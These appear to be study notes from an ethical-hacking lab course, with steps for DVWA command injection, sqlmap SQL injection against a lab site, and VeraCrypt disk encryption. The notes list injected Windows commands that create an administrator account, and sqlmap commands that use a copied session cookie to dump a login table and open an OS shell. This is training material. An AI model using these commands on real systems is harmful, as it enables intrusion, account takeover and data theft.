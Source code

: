 **Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

- If found command injection vulnerability in an input textfield
- | hostname
- | whoami
- **| tasklist| Taskkill /PID /F**
  - **/PID: Process ID value od the process**
  - **/F: Forcefully terminate the process**
- | dir C:\
- **| net user**
- **| net user user001 /Add**
- **| net user user001**
- **| net localgroup Administrators user001 /Add**
- Use created account user001 to log in remotely

**Module 15: SQL Injection**

**Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

- Login a website
- Inspect element
- Dev tools-\&gt;Console: document.cookie
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;[cookie value that you copied in Step 8]&quot; –dbs**
  - **-u: Specify the target URL**
  - **--cookie: Specify the HTTP cookie header value**
  - **--dbs: Enumerate DBMS databases**
- Get a list of databases
- Select a database to extract its tables
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;[cookie value which you have copied in Step 8]&quot; -D moviescope –tables**
  - **-D: Specify the DBMS database to enumerate**
  - **--tables: Enumerate DBMS database tables**
- Get a list of tables
- Select a column
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;[cookie value which you have copied in Step 8]&quot; -D moviescope –T User\_Login --dump**
- Get table data of this column
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;[cookie value which you have copied in Step 8]&quot; --os-shell**
- Get the OS Shell
- TASKLIST

**Module 20: Cryptography**

**Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator**

- Nothing special

**Lab4-Task1: Perform Disk Encryption using VeraCrypt**

- Click VeraCrypt
- Create Volumn
- Create an encrypted file container
- Specify a path and file name
- Set password
- Select NAT
- Move the mouse randomly for some seconds, and click Format
- Exit
- Select a drive, select file, open, mount
- Input password
- Dismount
- Exit
